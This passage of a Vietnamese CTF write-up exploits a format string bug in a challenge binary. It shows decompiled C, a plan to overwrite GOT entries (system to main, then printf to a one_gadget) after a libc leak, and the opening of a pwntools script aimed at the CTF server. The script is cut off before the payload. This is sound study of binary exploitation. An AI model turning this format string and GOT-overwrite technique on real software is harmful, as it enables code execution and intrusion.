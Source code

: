```python
        else:
            org = xored
        decrypt_msg += org
    return decrypt_msg
    
msg = "cLVQjFMjcFDGQ"
print(decrypt(msg))
    
```

- sub_401448 : chỉ có 1 bug duy nhất là ```fsb``` , ở đây ta thấy hàm system , ý định ban đầu là mịnh định thay cái chuỗi ls... thành 1 cái gì đó ok hơn tuy nhiên đó là dữ liệu không ghi được nên mình chuyển sang overwrite got 

```C
int sub_401448()
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, 0x80uLL);
  puts("How should we address you? ");
  printf(">>> ");
  fgets(s, 128, stdin);
  printf("hello ");
  printf(s);
  printf("Here are the lost memories:");
  putc(10, stdout);
  return system("ls *.pdf");
}
```

- đầu tiên mình sẽ ov got system thành main để tạo loop , sau đó các bước còn lại đơn giản là leak libc và overwrite got bằng one_gadget , sau 1 lúc tìm cái thích hợp thì mình đã overwrite thành công ```printf_got``` :v

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('vault.ctf.prgy.in', 1337,ssl=True)


def decrypt(encoded_bytes, caesar_key, xor_key):
    decrypted_bytes = bytearray()

    for byte in encoded_bytes:
        # Bỏ XOR trước
        xor_decoded = byte ^ xor_key

        # Dịch ngược Caesar (-10) nếu là chữ cái
        if 65 <= xor_decoded <= 90:  # A-Z
            orig_byte = (xor_decoded - 65 - caesar_key) % 26 + 65
        elif 97 <= xor_decoded <= 122:  # a-z
            orig_byte = (xor_decoded - 97 - caesar_key) % 26 + 97
```